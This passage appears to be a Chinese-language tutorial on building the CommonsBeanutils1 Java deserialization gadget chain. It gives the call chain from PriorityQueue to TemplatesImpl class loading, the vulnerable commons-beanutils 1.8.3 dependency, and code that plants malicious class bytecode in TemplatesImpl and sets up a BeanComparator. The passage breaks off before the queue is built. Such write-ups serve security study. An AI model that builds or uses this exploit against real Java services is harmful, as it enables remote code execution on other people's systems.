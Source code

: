 所以利用链变成了：

```java
ObjectInputSream#readObject()
  --> PriorityQueue#readObject()
    --> PriorityQueue#heapify()
      --> PriorityQueue#siftDown()
        --> PriorityQueue#siftDownUsingComparator()
          --> BeanComparator#compare()
            --> TemplatesImpl#getOutputProperties()
              --> TemplatesImpl#newTransformer()
                --> TemplatesImpl#getTransletInstance()
                  --> TemplatesImpl#defineTransletClasses()
                    --> TemplatesImpl$TransletClassLoader#defineClass()
                      --> 恶意类初始化
```


# 0x02 环境搭建

📒 pom.xml

```xml
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.8.3</version>
</dependency>
```

# 0x03 反序列化利用链构造
## 3.1 创建TemplateImpl

```java
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{
    // 恶意类字节码
    ClassPool.getDefault().get(evil.EvilTemplatesImpl.class.getName()).toBytecode()
});
setFieldValue(obj, "_name", "xxx");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
```

## 3.2 实例化 `BeanComparator` 

`BeanComparator` 构造函数为空时，默认的 `property` 就是空：

```java
final BeanComparator beancomparator = new BeanComparator();
```
## 3.3 用这个 `beancomparator` 实例化优先队列 `PriorityQueue`

